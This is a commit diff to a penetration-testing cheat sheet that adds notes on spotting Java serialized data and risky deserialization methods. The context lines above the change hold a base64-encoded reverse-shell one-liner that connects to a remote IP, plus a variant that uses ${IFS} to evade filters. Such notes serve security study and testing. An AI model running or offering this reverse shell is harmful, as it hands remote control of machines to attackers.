

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Adds Java serialization identification techniques from OWASP cheat sheet series.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1851,3 +1851,13 @@ bash < <(base64 -d < <(echo YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQg
 # Example with space and pipe filter
 bash${IFS}<${IFS}<(base64${IFS}-d${IFS}<${IFS}<(echo${IFS}YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjQ1LzQ0NDQgICAwPiYx))
 ```
+
+### Signs of Java Serialization
+- identification of base64 encoded string starting with `rO0` or hex encoded string starting with `ac ed 00`.
+- with openbox test, look for the following:
+  - `XMLdecoder`
+  - `XStream.fromXML()`
+  - `ObjectInputStream.readObject()`
+  - `readObject`, `readObjectNoData`, `readResolve` or `readExternal`
+  - `ObjectInputStream.readUnshared`
+  - Any class that implements the `Serializable` interface.
````
